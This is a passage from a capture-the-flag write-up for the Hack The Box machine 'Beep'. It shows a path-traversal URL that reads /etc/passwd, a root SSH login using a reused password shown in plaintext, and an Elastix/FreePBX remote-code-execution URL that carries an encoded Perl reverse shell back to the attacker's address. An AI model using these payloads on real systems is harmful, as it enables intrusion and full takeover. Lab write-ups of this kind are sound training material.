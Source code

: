 # Root 1st way
seem like `jEhdIekWmdjE` is used repeatedly. I wonder if it use somewhere else such as password for ssh.
I vist `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action` to see all users in the server. the user with login will have `/bin/bash` ash there home dir.
```console
[10.10.14.43]-bibo318@parrot:~/HTB/beep$ nano users.txt
[10.10.14.43]-bibo318@parrot:~/HTB/beep$ grep 'bin/bash' users.txt >> userwithlogin.txt
[10.10.14.43]-bibo318@parrot:~/HTB/beep$ cat userwithlogin.txt 
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```
So let try too ssh to server as root
```console
[10.10.14.43]-bibo318@parrot:/opt$ ssh root@beep.htb
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
okey let google the error, read this [stackexchange](https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found). now try again as `root:jEhdIekWmdjE`
```
[10.10.14.43]-bibo318@parrot:/opt$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc root@beep.htb
The authenticity of host 'beep.htb (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'beep.htb,10.10.10.7' (RSA) to the list of known hosts.
root@beep.htb's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# ls
anaconda-ks.cfg		   install.log	       postnochroot  webmin-1.570-1.noarch.rpm
elastix-pr-2.2-1.i386.rpm  install.log.syslog  root.txt
[root@beep ~]# cat root.txt
[root@beep ~]# cat /home/fanis/user.txt 
```
# Root 2nd way: FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
back when we were looking for exploit in `searchsploit`. I saw `FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution          | php/webapps/18650.py`. I was taking a look at it and try it with extention 1000 which give me this payload.
```
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.43%3a6969%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```